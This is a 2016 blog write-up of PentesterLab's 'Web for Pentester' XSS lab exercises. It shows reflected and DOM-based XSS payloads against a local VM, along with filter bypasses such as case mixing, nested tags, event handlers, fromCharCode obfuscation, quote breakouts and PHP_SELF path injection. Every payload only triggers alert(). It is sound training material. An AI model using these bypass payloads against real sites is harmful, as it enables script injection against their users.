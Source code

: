 ```yaml
---
layout:     post
title:      "Web for Pentester"
subtitle:   "XSS Write-Up"
date:       2016-09-01 6:00:00
author:     "W3ndige"
permalink: /:title/
category: Write-Ups
---
```


<p>Today we're going to continue our journey through the word of web application security - more accurately XSS exercises from <a href="https://pentesterlab.com/">PentesterLab</a>. It's great way to practice what we have learned so far and also - good challenge. Let's jump into the first one!</p>

<h3>Exercise 1</h3>

<p>Here we have a very basic example of Cross Site Scripting where you have to change the variable that is visible in the URL (which is our example is <i>name=hacker</i>) into the alert script that will allow us to see whether if it works. </p>

{% highlight html %}
http://192.168.0.12/xss/example1.php?name=<script>alert("Xss")</script>
{% endhighlight %}

![exercise-1](/img/xss-exercise/exercise-1.png){:class="img-responsive"}

<p>Great, it works perfectly, let's move to the next one!</p>

<h3>Exercise 2</h3>
<p>Firstly I wanted to try whether the method from the previous one works but as I suspected it didn't. What we got after entering script was this source code. </p>

{% highlight html %}
<div class="container">
Hello
alert("Xss")
{% endhighlight %}

<p>It may be somehow filtering our input - maybe changing it to uppercase will help us? </p>   

{% highlight html %}
http://192.168.0.12/xss/example2.php?name=<sCript>alert("Xss")</sCript>
{% endhighlight %}

<p>Great! It works and we've bypassed the filter. Let's move on to the next one! </p>

<h3>Exercise 3</h3>

<p>This one is a little harder - it doesn't allow <b>script</b> or even <b>sCript</b> so we have to try something else. From what I learned about methods to bypass filtering it may be possible to use this simple trick. </p>

{% highlight html %}
http://192.168.0.12/xss/example3.php?name=<scr<script>ipt>alert("Xss")</scr</script>ipt>
{% endhighlight %}

<p>If you don't know how this works - the filter firstly looks for <i>script</i> tag, deletes it, and then sends the result. But after taking out the script two other parts <b>scr</b> and <b>ipt</b> will merge into one creating our payload. </p>

<h3>Exercise 4</h3>

<p>Here it looks like more advanced version of filter, it completely takes out the word script and when the request matches script, it will stop. So what options do we have to bypass it? We can put <b>img</b> tag with some attributes allowing us to create a paylod. Onmouseover will be an excellent example but you can use any other you will think that will work. </p>

{% highlight html %}
http://192.168.0.12/xss/example4.php?name=<img src="blabla" onmouseover="alert('XSS')"></img>
{% endhighlight %}

<p>It will even better work with <b>onerror</b> since it will execute automatically when the page loads. </p>

{% highlight html %}
http://192.168.0.12/xss/example4.php?name=<img src="blabla" onerror="alert('XSS')"></img>
{% endhighlight %}

<h3>Exercise 5</h3>

<p>This one is a little trickier - it allows <b>script</b> tags but doesn't allow <b>alert</b> function. How can we make it alert something without actually typing it? We can translate this into the ASCII characters. </p>

{% highlight html %}
alert("XSS") = 097 108 101 114 116 040 034 088 083 083 034 041
{% endhighlight %}

<p>Which after small redesign will result in actually working XSS!</p>

{% highlight html %}
http://192.168.0.12/xss/example5.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,34,88,83,83,34,41))</script>
{% endhighlight %}

<h3>Exercise 6</h3>

<p>This one is a little different. After looking into the source code (which you should always do at the beginning) we get this small JavaScript code. </p>

{% highlight html %}
Hello
<script>
	var $a= "hacker";
</script>
{% endhighlight %}

<p>Vaule of $a changes everytime we enter something different in <b>name=</b> field. We can try to manipulate this script into running alert function. Firstly I add <b>"</b> character to indicate that text is before this quotiation mark. Then let's add <b>;</b> as it's always used in JavaScript at the end of a line. After that I'm ready to add <b>alert('XSS')</b> but it still won't work because of the quotiation mark at the end of the input so let's try commenting it out with <b>//</b>. And it works!</p>

{% highlight html %}
http://192.168.0.12/xss/example6.php?name=me";alert('XSS')//
{% endhighlight %}

<h3>Exercise 7</h3>

<p>Here w're dealing with similar challenge as in the previous one. </p>
{% highlight html %}
Hello
<script>
	var $a= 'hacker';
</script>
{% endhighlight %}

<p>Using the previous strategy I manage to get the XSS alert working. </p>
{% highlight html %}
http://192.168.0.12/xss/example7.php?name=hacker';alert('XSS');//
{% endhighlight %}

<h3>Exercise 8</h3>
<p>Hmmm... We've got the input field that will not allow any of our XSS tricks. I actually had no idea how to attack this example so I checked out hints provided by PentesterLab. Let's take a look at them. </p>

<p><i>Here, the value echoed back in the page is correctly encoded. However, there is still a XSS vulnerability in this page. To build the form, the developer used and trusted PHP_SELF which is the path provided by the user. It’s possible to manipulate the path of the application in order to:</i></p>
<ol>
<li><i>call the current page (however you will get an HTTP 404 page);</i></li>
<li><i>get a XSS payload in the page.</i></li>
</ol>
<p><i>This can be done because the current configuration of the server will call /xss/example8.php when any URL matching /xss/example8.php/... is accessed. You can simply get your payload inside the page by accessing /xss/example8.php/[XSS_PAYLOAD]. Now that you know where to inject your payload, you will need to adapt it to get it to work and get the famous alert box.</i></p>

<p>Wow, I haven't thought about that. Let's see what happens if we simply add it <b>/xss/example8.php/[XSS_PAYLOAD]</b> like in here. </p>

{% highlight html %}
http://192.168.0.12/xss/example8.php/<script>alert("XSS")</script>
{% endhighlight %}

<p>But it still doesn't work. We have to somehow tweak it into the working version. </p>

{% highlight html %}
<form action="/xss/example8.php/<script>alert("XSS")</script>" method="POST">
  Your name:<input type="text" name="name" />
  <input type="submit" name="submit"/>
{% endhighlight %}

<p>If we take a look at it a little closer we can see that if we add <b>"></b> after the example8.php it will close the path and allow script to execute. </p>

{% highlight html %}
http://192.168.0.12/xss/example8.php/"><script>alert("XSS")</script>
{% endhighlight %}

<p>To the last one!</p>

<h3>Exercise 9</h3>
<p>By looking at the source code it reveals to us that the script is simply executing everything after the hash string.</p>
{% highlight html %}
<script>
    document.write(location.hash.substring(1));
</script>
{% endhighlight %}
<p>Solution will look like this. I don't know why but it worked for me only in Chrome browser, not in Firefox. Luckily we managed to complete this set of exercises. </p>
{% highlight html %}
http://192.168.0.12/xss/example9.php#<script>alert("XSs")</script>
{% endhighlight %}

<p>Thanks for tuning in! It was great challenge, and I'm sure to complete other exercise on Web for Pentester ISO. Hopefully there will be more XSS challenges as I'm really enjoying them. </p>
